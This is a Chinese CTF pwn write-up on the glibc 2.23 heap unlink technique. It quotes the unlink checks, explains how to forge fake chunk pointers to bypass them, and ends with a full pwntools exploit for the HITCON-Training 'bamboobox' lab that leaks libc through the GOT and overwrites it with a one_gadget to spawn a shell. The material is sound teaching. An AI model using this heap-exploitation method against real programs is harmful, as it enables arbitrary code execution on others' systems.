


CTF-pwn中对于堆的很常见的利用手段之一就是unlink，对学习过程做个记录
本文部分引用了其他师傅的文章原文，如有侵权，请联系我删除 unlink简介
随便搜索就可以发现unlink的文章有很多，但是看了很久也不知道unlink是个什么东西。后来看了一篇文章之后才理解，简单来说Unlink这个行为就是将已经free的chunk从某bin里拿出来，并和刚刚free的chunk合并，重新放入某bin中。
放一张图片

古老的unlink就是判断前后物理相邻的chunk是否处于使用状态，来判断是进行前向合并或后向合并，也就是设置
P->fd->bk = P->bk.
P->bk->fd = P->fd.保护机制介绍与绕过姿势
但是现在都0202年了，这么古老的技术没办法利用了
现在的unlink都加上了检查，我们还是以glibc2.23来说吧（不要问我为什么，因为2.23之后的东西我不会）
先贴个源码
FD = P->fd;
BK = P->bk;
if (__builtin_expect (FD->bk != P || BK->fd != P, 0))
malloc_printerr (check_action, "corrupted double-linked list", P, AV);
else {
FD->bk = BK;
BK->fd = FD;
if (!in_smallbin_range (P->size)
&& __builtin_expect (P->fd_nextsize != NULL, 0)) {
if (__builtin_expect (P->fd_nextsize->bk_nextsize != P, 0)
|| __builtin_expect (P->bk_nextsize->fd_nextsize != P, 0))
malloc_printerr (check_action,
"corrupted double-linked list (not small)",
P, AV);
if (FD->fd_nextsize == NULL) {
if (P->fd_nextsize == P)
FD->fd_nextsize = FD->bk_nextsize = FD;
else {
FD->fd_nextsize = P->fd_nextsize;
FD->bk_nextsize = P->bk_nextsize;
P->fd_nextsize->bk_nextsize = FD;
P->bk_nextsize->fd_nextsize = FD;
}
} else {
P->fd_nextsize->bk_nextsize = P->bk_nextsize;
P->bk_nextsize->fd_nextsize = P->fd_nextsize;
}
}
}
} 这里的检查主要有两项：
①P–>fd–>bk = P–>bk–>fd = P，即当前chunk的下一块chunk的上一块chunk是否等于它本身，当前chunk的上一块chunk的下一块chunk是否等于它本身
②检查当前chunk的size字段与它相邻的下一块chunk中记录的pre_size是否一样
那么我们现在利用就需要绕过这些检测，实际上第二条检测是比较好绕过的，我们只要溢出到下一块chunk的prev_size改写它就可以绕过了
绕过检查我们可以在chunk中我们可以控制的区域伪造一个chunk，让P–>fd–>bk = P,P–>bk–>fd =P，也就是说让他最终指向我们伪造的chunk的开头位置就可以绕过检查了
我们设ptr是chunk的首地址，P为需要操作的chunk，那么，我们只要令P–>fd = ptr - 0x18，P–>bk = ptr - 0x10就可以了
大概是这样伪造

构造完之后，我们会得到FD = P–>fd = ptr - 0x18，BK = P–>bk = ptr - 0x10，那FD的bk指针就是FD–>BK = FD + 0x18 = ptr - 0x18 + 0x18 = ptr，同理BK的fd指针就是BK–>fd = BK + 0x10 = ptr - 0x10 + 0x10 = ptr 这样就可以绕过检测，然后我们得到的最终结果就是ptr = ptr - 0x18，也就是说ptr指向了ptr-0x18的地址处
那我们从ptr开始写入0x18个a，然后跟上free_got，再把free_got改写成onegadget就可以getshell了
bamboobox
程序分析
[*] '/home/N0vice/Desktop/HITCON-Training/LAB/lab11/bamboobox'
Arch: amd64-64-little
RELRO: Partial RELRO
Stack: Canary found
NX: NX enabled
PIE: No PIE (0x400000)开了canary和NX，问题不大
看一下那几个函数
main
int __cdecl main(int argc, const char **argv, const char **envp)
{
_QWORD *v3; // [rsp+8h] [rbp-18h]
char buf; // [rsp+10h] [rbp-10h]
unsigned __int64 v5; // [rsp+18h] [rbp-8h]
v5 = __readfsqword(0x28u);
setvbuf(stdout, 0LL, 2, 0LL);
setvbuf(stdin, 0LL, 2, 0LL);
v3 = malloc(0x10uLL);
*v3 = hello_message;
v3[1] = goodbye_message;
((void (__fastcall *)(signed __int64, _QWORD))*v3)(16LL, 0LL);
while ( 1 )
{
menu();
read(0, &buf, 8uLL);
switch ( atoi(&buf) )
{
case 1:
show_item(&buf, &buf);
break;
case 2:
add_item(&buf, &buf);
break;
case 3:
change_item(&buf, &buf);
break;
case 4:
remove_item(&buf, &buf);
break;
case 5:
((void (__fastcall *)(char *, char *))v3[1])(&buf, &buf);
exit(0);
return;
default:
puts("invaild choice!!!");
break;
}
}
}show_item
int show_item()
{
signed int i; // [rsp+Ch] [rbp-4h]
if ( !num )
return puts("No item in the box");
for ( i = 0; i <= 99; ++i )
{
if ( qword_6020C8[2 * i] )
printf("%d : %s", i, qword_6020C8[2 * i]);
}
return puts(byte_401089);
}add_item
__int64 add_item()
{
signed int i; // [rsp+4h] [rbp-1Ch]
int v2; // [rsp+8h] [rbp-18h]
char buf; // [rsp+10h] [rbp-10h]
unsigned __int64 v4; // [rsp+18h] [rbp-8h]
v4 = __readfsqword(0x28u);
if ( num > 99 )
{
puts("the box is full");
}
else
{
printf("Please enter the length of item name:");
read(0, &buf, 8uLL);
v2 = atoi(&buf);
if ( !v2 )
{
puts("invaild length");
return 0LL;
}
for ( i = 0; i <= 99; ++i )
{
if ( !qword_6020C8[2 * i] )
{
*(&itemlist + 4 * i) = v2;
qword_6020C8[2 * i] = malloc(v2);
printf("Please enter the name of item:");
*(qword_6020C8[2 * i] + read(0, qword_6020C8[2 * i], v2)) = 0;
++num;
return 0LL;
}
}
}
return 0LL;
}change_item
unsigned __int64 change_item()
{
int v0; // ST08_4
int v2; // [rsp+4h] [rbp-2Ch]
char buf; // [rsp+10h] [rbp-20h]
char nptr; // [rsp+20h] [rbp-10h]
unsigned __int64 v5; // [rsp+28h] [rbp-8h]
v5 = __readfsqword(0x28u);
if ( num )
{
printf("Please enter the index of item:");
read(0, &buf, 8uLL);
v2 = atoi(&buf);
if ( qword_6020C8[2 * v2] )
{
printf("Please enter the length of item name:", &buf);
read(0, &nptr, 8uLL);
v0 = atoi(&nptr);
printf("Please enter the new name of the item:", &nptr);
*(qword_6020C8[2 * v2] + read(0, qword_6020C8[2 * v2], v0)) = 0;
}
else
{
puts("invaild index");
}
}
else
{
puts("No item in the box");
}
return __readfsqword(0x28u) ^ v5;
}remove_item
unsigned __int64 remove_item()
{
int v1; // [rsp+Ch] [rbp-14h]
char buf; // [rsp+10h] [rbp-10h]
unsigned __int64 v3; // [rsp+18h] [rbp-8h]
v3 = __readfsqword(0x28u);
if ( num )
{
printf("Please enter the index of item:");
read(0, &buf, 8uLL);
v1 = atoi(&buf);
if ( qword_6020C8[2 * v1] )
{
free(qword_6020C8[2 * v1]);
qword_6020C8[2 * v1] = 0LL;
*(&itemlist + 4 * v1) = 0;
puts("remove successful!!");
--num;
}
else
{
puts("invaild index");
}
}
else
{
puts("No item in the box");
}
return __readfsqword(0x28u) ^ v3;
}利用思路
我们在chunk1中构造一个fake_chunk，通过change功能堆溢出修改chunk2的prev_size和size，最重要的是修改掉prev_in_use位，让程序认为chunk1被free了，再free掉chunk2就可以触发unlink，并且通过构造fake_chunk的fd和bk指针绕过unlink检查，使得ptr = ptr - 0x18，输入”a”*0x18 + atoi_got，那么chunk1的指针会指向atoi_got，调用show函数的时候会泄露atoi的真实地址，然后构造出onegadget，将got改写为onegadget就可以getshell
exp
#!/usr/bin/python2.7
#coding=utf-8
from pwn import*
#context.log_level = 'debug'
context.terminal = ['terminator','-x','sh','-c']
context.arch = 'amd64'
#p=remote("node3.buuoj.cn",29168)
p = process("./bamboobox")
elf = ELF("./bamboobox")
libc = elf.libc
def add(size,content):
p.recvuntil("choice:")
p.sendline("2")
p.recvuntil("name:")
p.send(str(size))
p.recvuntil("item:")
p.send(content)
def edit(idx,size,content):
p.recvuntil("choice:")
p.sendline("3")
p.recvuntil("item:")
p.send(str(idx))
p.recvuntil("name:")
p.send(str(size))
p.recvuntil("item:")
p.send(content)
def show():
p.recvuntil("choice:")
p.sendline("1")
def free(idx):
p.recvuntil("choice:")
p.sendline("4")
p.recvuntil("item:")
p.send(str(idx))
#gdb.attach(p,"b *0x400ED2")
add(0x80,"aaaaaaaa") # chunk1
add(0x80,"bbbbbbbb") # chunk2
payload = p64(0) + p64(0x81) # fake_chunk's prev_size and size
payload += p64(0x6020c8-0x18) + p64(0x6020c8-0x10) # fake_chunk's fd and bk
payload += "a"*0x60 # 填充完剩下的空间
payload += p64(0x80) + p64(0x90) # overwrite chunk2
edit(0,len(payload),payload)
free(1)
payload = "a"*0x18 + p64(elf.got['atoi'])
edit(0,len(payload),payload)
show() # leak atoi_addr
atoi_addr = u64(p.recvuntil('\x7f')[-6:].ljust(8, '\x00'))
log.success("atoi_addr==>" + hex(atoi_addr))
libc_base = atoi_addr - libc.sym['atoi']
onegadget = libc_base + 0xf02a4
edit(0,0x10,p64(onegadget))
p.interactive()参考链接:
http://eternalsakura13.com/2018/03/01/unlink1/
https://xz.aliyun.com/t/5748#toc-0
https://ctf-wiki.github.io/ctf-wiki/pwn/linux/glibc-heap/unlink-zh/
https://www.jianshu.com/p/09a475864b6e
https://www.cnblogs.com/luoleqi/p/12373298.html